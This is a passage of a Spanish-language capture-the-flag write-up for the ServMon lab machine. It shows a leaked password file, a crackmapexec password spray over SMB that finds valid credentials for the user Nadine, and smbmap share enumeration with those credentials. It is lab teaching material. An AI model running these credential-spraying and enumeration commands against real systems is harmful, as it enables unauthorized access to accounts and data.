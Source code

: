 En un principio debería existir el archivo: `C:/Users/Nathan/Desktop/Passwords.txt`

``txt
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Sabiendo una lista de usuarios y contraseñas, podríamos comprobar si hay alguno válido:

```bash wrap=false
❯ crackmapexec smb 10.10.10.184 -u users -p passwords
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing FTP protocol database
[*] Initializing WINRM protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk 
```

Con **smbmap** vamos a seguir enumerando:

```bash wrap=false
❯ smbmap -H 10.10.10.184 -u 'Nadine' -p 'L1k3B1gBut7s@W0rk'
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.10.184:445	Name: 10.10.10.184        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
[*] Closed 1 connections
```
